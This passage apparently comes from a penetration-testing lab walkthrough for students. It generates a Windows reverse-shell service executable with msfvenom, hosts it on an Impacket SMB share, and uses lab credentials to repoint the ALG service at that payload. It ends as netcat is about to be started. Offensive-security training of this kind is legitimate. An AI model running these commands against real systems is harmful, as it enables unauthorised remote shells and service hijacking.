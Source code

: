 ```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-yvuptgywyj]─[~]
└──╼ [★]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.221 LPORT=9001 -f exe-service -o service-shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: service-shell.exe
```

Subsequently, students will initiate an SMB server using Impacket:

Code: shell

```shell
sudo impacket-smbserver share ./ -smb2support
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-yvuptgywyj]─[~]
└──╼ [★]$ sudo impacket-smbserver share ./ -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Students will proceed to open a new terminal tab and change the path to the ALG service to their workstations' IP using `impacket-services` script:

Code: shell

```shell
impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name ALG -path "\\\\PWNIP\\share\\service-shell.exe"
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name ALG -path "\\\\PWNIP\\share\\service-shell.exe"

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Changing service config for ALG
```

Subsequently, students will open a new terminal tab and start `netcat` on the port they have specified:
